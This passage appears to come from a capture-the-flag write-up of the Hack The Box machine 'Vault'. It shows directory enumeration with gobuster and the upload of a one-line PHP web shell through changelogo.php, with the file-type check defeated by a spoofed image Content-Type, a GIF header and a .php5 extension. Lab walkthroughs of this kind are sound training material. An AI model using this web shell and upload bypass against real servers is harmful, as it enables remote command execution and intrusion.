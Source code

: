 Found files and directories:
- _login.php_
  - Shows _"access denied"_
- _admin.php_
  - Shows a login prompt

![Login prompt on admin.php](https://kyuu-ji.github.io/htb-write-up/vault/vault_web-1.png)

- _/design_
  - 403 Forbidden

Searching in _/design_:
```markdown
gobuster -u http://10.10.10.109/sparklays/design dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

Found files and directories:
- _/uploads_
  - 403 Forbidden
- _design.html_
  - Button to _/changelogo.php_
  - Upload feature on _changelogo.php_

![Upload feature on changelogo.php](https://kyuu-ji.github.io/htb-write-up/vault/vault_web-2.png)

Searching in _/uploads_:
```markdown
gobuster -u http://10.10.10.109/sparklays/design/uploads dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

Nothing found in _/uploads_ because there are probably the uploaded files from _/changelogo.php_ saved.

### Checking changelogo.php

Lets upload a PHP file with the following PHP code and send the request to **Burpsuite** to see what the response is:
```markdown
<?php system($_REQUEST['cmd']); ?>
```

It responds by saying that this file type is not allowed, so the _Content-Type_ has to be changed and make the file look like an image:
```markdown
Content-Type: image/gif

GIF8;
<?php system($_REQUEST['cmd']); ?>
```

It is still not allowed, so also changing the file extension:
```markdown
Content-Disposition: form-data; name="file"; filename="cmd.gif"

The file was uploaded successfully
```
```markdown
Content-Disposition: form-data; name="file"; filename="cmd.php5"

The file was uploaded successfully
```
